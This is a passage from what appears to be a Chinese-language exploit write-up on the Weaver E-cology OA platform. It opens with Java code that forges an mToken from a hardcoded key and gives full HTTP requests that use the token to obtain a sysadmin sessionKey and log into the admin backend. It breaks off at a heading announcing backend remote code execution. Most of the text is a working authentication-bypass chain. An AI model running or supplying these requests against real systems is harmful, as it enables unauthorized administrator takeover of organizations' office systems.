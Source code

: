 ```
        System.out.println(encrypt(&#34;1;1;&#34;+System.currentTimeMillis(),&#34;5f2f28dd-db4a-45&#34;));
    }
}
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ceGLwibV7eibnrbLN1s9VOtTmMywj3iayQJ2T19WpBv1vMxXicuLMSnB8INMG1iaK11gEdxovtcCorDicw/640?wx_fmt=other&from=appmsg "")  
  
获取到密钥，即为下面需要用到的mToken  
  
### 获取sessionKey  
  

```
GET /mobilemode/mobile/server.jsp?invoker=com.api.mobilemode.web.mobile.service.MobileEntranceAction&action=meta&appid=1&appHomepageId=1&mTokenFrom=QRCode&mToken=BAAD7750912407C15FBC7CA2BDA4BDDDAEACE215E26BB871CE8D171028A66A70&_ec_ismobile=true&timeZoneOffset=&a=.swf HTTP/1.1
Host: xxxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1

```

  
###   
  
获取到sysadmin 的sessionKey  
### 登录后台  
  
将sessionKey转换为ecology_JSessionid即可登录后台  
  

```
GET /weaver/ImgFileDownload/a.swf?sessionkey=b20e3665-d8a8-403d-a041-0c5883626da4&a=.swf HTTP/1.1
Host: xxxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1

```

  
###   
###   
## 0x02 后台RCE  
### 添加方法  
  
